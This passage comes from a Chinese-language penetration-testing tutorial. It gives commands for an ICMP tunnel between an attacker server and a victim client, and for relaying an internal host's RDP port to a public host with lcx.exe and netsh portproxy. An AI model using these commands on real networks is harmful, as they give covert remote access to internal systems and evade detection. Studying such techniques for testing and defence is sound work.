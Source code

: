 客户端和服务器需同时禁用 icmp 答复  

```
sysctl -w net.ipv4.icmp_echo_ignore_all=1
```

这里攻击者为服务端，受害者为客户端

服务端配置：

```
./icmptunnel -s#以服务端启动
/sbin/ifconfig tun0 10.0.0.1 netmask 255.255.255.0 #配置一个ip
```

客户端配置：  

```
./icmptunnel 192.168.75.131（服务端ip）
/sbin/ifconfig tun0 10.0.0.2 netmask 255.255.255.0 #配置一个ip
```

那么就可以隧道进行通信了  

**4.4 tcp 端口转发**

**windows：**

工具：lcx.exe netsh .........

把内网主机的 3389 端口转发到具有公网 ip 主机的 4444 端口

```
lcx.exe -slave 公网ip 8888 内网ip 3389
```

本地搭建端口之间的隧道

```
lcx.exe –listen 8888 3389#本地3389和8888端口进行连接
```

netsh 仅支持 TCP 协议， 适用于双网卡服务器

```
#查看现有规则
netsh interface portproxy show all

#添加转发规则
netsh interface portproxy set v4tov4 listenaddress=外网IP listenport=6666 connectaddress=内网IP connectport=3389
#删除转发规则
netsh interface portproxy delete v4tov4 listenport=6666

#xp需要安装ipv6
netsh interface ipv6 install
```

连接外网 6666 端口，就是连接到内网目标上面的 3389。  

**linux：**
